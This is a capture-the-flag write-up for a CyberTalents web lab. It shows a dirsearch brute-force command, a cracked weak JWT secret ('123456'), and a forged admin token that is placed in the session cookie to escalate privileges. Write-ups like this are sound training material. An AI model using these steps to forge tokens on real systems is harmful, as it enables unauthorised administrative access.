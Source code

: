 # Solve admin-gate-first
#### https://cybertalents.com/challenges/web/admin-gate-first

![alt text](images/image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6m51xvkoecl304j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*


### Login with test/test
![alt text](images/image-1.png)

in the cookies we found a JWT tokin
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcInRlc3RcIixcInJvbGVcIjpcInVzZXJcIn0ifQ.XSPy0jZd8CEtHl2e3C1SjPaewco1tjO3iajbkJy2OFQ` 

### Decode with JWT.io 

```json
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "data": "{\"username\":\"test\",\"role\":\"user\"}"
}
```
### Crack the JWT
we found the Signature `123456`

### Edit the JWT Token

```json
{
  "typ": "JWT",
  "alg": "HS256"
}

{
  "data": "{\"username\":\"test\",\"role\":\"admin\"}"
}
```
The new Token:
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjoie1widXNlcm5hbWVcIjpcInRlc3RcIixcInJvbGVcIjpcImFkbWluXCJ9In0.jHijo7pYELY4DJG20h2xCRiKRqW3HCdB1AnyOGsTNUw`

edit the cookie with the new Token
![alt text](images/image-2.png)

### Resorces 
[jwt.io](https://jwt.io/)
[jwt cracker](https://github.com/brendan-rius/c-jwt-cracker)
>Find More on ==> github.com/MedhatHassan 
